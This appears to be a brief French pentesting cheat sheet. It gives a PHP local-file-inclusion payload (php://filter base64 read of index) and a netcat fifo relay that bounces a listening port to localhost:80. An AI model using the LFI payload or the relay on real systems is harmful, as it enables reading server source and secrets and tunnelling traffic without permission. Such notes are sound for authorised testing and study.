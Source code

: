 PHP
---

LFI include : php://filter/convert.base64-encode/resource=index





netcat
------

Bouncer un port:

```
mkfifo /tmp/backpipe

nc -k -l 6666 0<backpipe | nc localhost 80 | tee backpipe
```
